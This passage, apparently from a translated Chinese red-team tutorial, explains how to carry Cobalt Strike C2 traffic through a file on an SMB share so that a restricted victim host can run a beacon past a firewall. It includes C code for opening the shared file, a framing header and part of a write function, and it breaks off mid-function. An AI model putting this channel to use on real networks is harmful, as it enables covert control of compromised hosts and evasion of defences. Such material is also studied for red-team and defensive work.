 

## 四、通过文件传输C2数据

先回顾下创建自定义C2协议中我们需要控制哪些元素：

[![](https://p4.ssl.qhimg.com/t011681657b66dab389.png)](https://p4.ssl.qhimg.com/t011681657b66dab389.png)

从上图可知，我们需要重点关注第三方Controller以及Client之间传输的数据。还是回到之前那个例子，现在我们需要将这个过程变得更加有趣，那就是通过文件读写操作来传输数据。

为什么要费尽心思这么做呢？当我们身处Windows域环境中，所控制的主机只有非常有限的外连渠道（比如只能访问文件共享），这时候就需要用到这种方法。当某台主机（Internet Connected Host）既能访问我们的C2服务器，也能通过SMB文件共享方式与受害主机建连时，我们可以将C2数据写入共享的某个文件，然后再穿过防火墙读取这些数据，这样就能运行我们的Cobalt Strike beacon。

整个流程如下所示：

[![](https://p4.ssl.qhimg.com/t01ecadd208bd5cd64d.png)](https://p4.ssl.qhimg.com/t01ecadd208bd5cd64d.png)

上图中我们引入了一个附加的元素，可以将数据封装到文件中进行读写，并且也可以与第三方Controller通信。

与前面类似，这里Controller与“Internet Connected Host”同样使用长度字段为4字节的协议来通信，因此我们不需要修改已有的Python版的Controller。

我们需要做的是将前面的Client分割成两个部分。第一部分在“Internet Connected Host”上运行，接收Controller发送的数据，将其写入某个文件中。第二部分在“Restricted Host”（受限主机）上运行，读取文件中的数据，生成SMB Beacon，并将数据传递给这个beacon。

前面介绍过的部分这里就不再赘述了，我来介绍下实现文件传输的一种方法。

首先，我们需要创建承担通信功能的文件。这里我们可以使用`CreateFileA`函数，但需要确保使用`FILE_SHARE_READ`以及`FILE_SHARE_WRITE`选项。这样通道两端的Client就能同时读取并写入这个文件：

```
HANDLE openC2FileServer(const char *filepath) `{`
    HANDLE handle;

    handle = CreateFileA(filepath, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (handle == INVALID_HANDLE_VALUE)
        printf("Error opening file: %xn", GetLastError());
    return handle;
`}`
```

接下来，我们需要将C2数据序列化封装到文件中，同时指定2个Client中哪个Client需要在什么时候处理数据。

我们可以使用一个简单的头部结构来完成这个任务，如下所示：

```
struct file_c2_header `{`
    DWORD id;
    DWORD len;
`}`;
```

头部中的`id`字段可以充当信号功能，我们根据这个字段了解哪个Client需要读取或写入数据。

再引入两个文件读取及写入函数，如下所示：

```
void writeC2File(HANDLE c2File, const char *data, DWORD len, int id) `{`
  char *fileBytes = NULL;
  DWORD bytesWritten = 0;

  fileBytes = (char *)malloc(8 + len);
  if (fileBytes == NULL)
      return;

  // Add our file header
  *(DWORD *)fileBytes = id;
  *(DWORD *)(fileBytes+4) = len;

```